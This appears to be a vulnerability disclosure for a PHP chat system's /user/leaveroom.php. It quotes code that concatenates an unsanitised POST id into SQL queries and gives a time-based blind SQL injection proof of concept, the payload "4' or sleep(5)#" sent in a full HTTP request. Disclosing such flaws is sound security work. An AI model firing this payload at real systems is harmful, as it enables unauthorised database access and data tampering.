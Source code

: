 # chat system has sql injection in /user/leaveroom.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



/user/leaveroom.php



## describe


The id parameter is not properly sanitized or parameterized, which leaves it vulnerable to SQL injection attacks. Attackers can exploit this by injecting malicious SQL code to manipulate the database queries. Utilizing time-based SQL injection methods, they can introduce intentional delays in the database response through functions such as SLEEP(). This technique can be employed to verify the existence of the vulnerability and may also be used to extract sensitive information from the database.



## **Code analysis**



```php
<?php
	include('session.php');
	if (isset($_POST['leave'])){
		$id=$_POST['id'];
		
		mysqli_query($conn,"delete from chat_member where userid='".$_SESSION['id']."' and chatroomid='$id'");
		
		//remove room if no more member
		$r=mysqli_query($conn,"select * from chat_member where chatroomid='$id'");
		if (mysqli_num_rows($r)<1){
			mysqli_query($conn,"delete from chatroom where chatroomid='$id'");
		}
		
	}

?>
```

Inserting $_POST['id'] into Mysql without any filter. A time-based blind SQL injection can be triggered.





## POC

```http
POST /user/leaveroom.php HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 26
Cache-Control: max-age=0
Cookie: PHPSESSID=37s949bl7lo8mj992ts8np9vio
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1:8081
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8081/user/modal.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

leave=1&id=4' or sleep(5)#
```



Send this request, you can observe an additional 30-second (5 * 3 * 2) time delay triggered by the time-based injection.


